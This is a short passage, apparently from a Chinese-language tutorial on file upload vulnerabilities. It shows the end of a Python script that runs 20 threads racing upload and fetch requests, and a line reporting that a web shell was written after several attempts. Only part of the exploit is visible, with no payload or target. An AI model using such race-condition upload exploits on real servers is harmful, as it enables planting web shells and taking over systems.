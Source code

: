 ```python
                self._get()
            for i in range(10):
                self._upload()
                self._get()

if __name__ == "__main__":
    threads = 20

    for i in range(threads):
        t = RaceCondition()
        t.start()

    for i in range(threads):
        t.join()
```

经过几次尝试后成功成功写入shell
[![img](https://github.com/Anthem9/everyday/raw/master/writings/%E7%AE%80%E5%8D%95%E7%B2%97%E6%9A%B4%E7%9A%84%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/16.png)](http://ofrdce5qv.bkt.clouddn.com/16.png)
